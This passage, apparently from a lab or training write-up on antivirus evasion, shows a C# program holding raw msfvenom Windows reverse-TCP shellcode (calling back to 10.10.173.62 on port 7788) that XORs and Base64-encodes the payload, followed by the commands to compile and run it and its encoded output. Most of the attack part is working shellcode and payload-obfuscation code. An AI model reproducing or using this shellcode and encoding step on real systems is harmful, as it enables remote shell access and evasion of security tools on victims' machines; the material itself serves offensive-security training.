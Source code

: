 ```csharp
			// Msfvenom command: msfvenom -a x86 --platform Windows LHOST=10.10.173.62 LPORT=7788 -p windows/shell_reverse_tcp -f csharp
			// This is the raw bytes of the reverse tcp (not encoded nor encrypted)
            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
			0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
			0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
			0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
			0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
			0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
			0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
			0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
			0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
			0x8d,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,
			0x77,0x26,0x07,0xff,0xd5,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,
			0x29,0x80,0x6b,0x00,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,
			0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x05,0x68,0x0a,0x0a,0xad,0x3e,0x68,
			0x02,0x00,0x1e,0x6c,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,
			0xff,0xd5,0x85,0xc0,0x74,0x0c,0xff,0x4e,0x08,0x75,0xec,0x68,0xf0,0xb5,0xa2,
			0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x00,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,
			0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x01,0x01,0x8d,0x44,
			0x24,0x10,0xc6,0x00,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,
			0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,
			0x30,0x68,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,
			0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
			0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5 };

            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
            Console.WriteLine(Convert.ToBase64String(encoded));        
        }
    }
}
```

	- The shellcode bytecode is stored in 'buf'.
	- Note that you can get the bytecode of the reverse shell just after generating it with MSFVenom.
	- Notice that it XOR the raw shellcode first and then encode it with Base64. (Encryption+Encoding)

<u>Output</u>:

![](/assets/img/Pasted image 20230114160126.png)

- The code is straightforward and will generate an encoded payload that we will embed on the final payload.
- Remember to replace the `buf` variable with the shellcode you generated with `msfvenom`.

##### 2. Compiling and executing the encoder:

```shell-session
C:\> csc.exe Encryptor.cs
C:\> .\Encryptor.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```
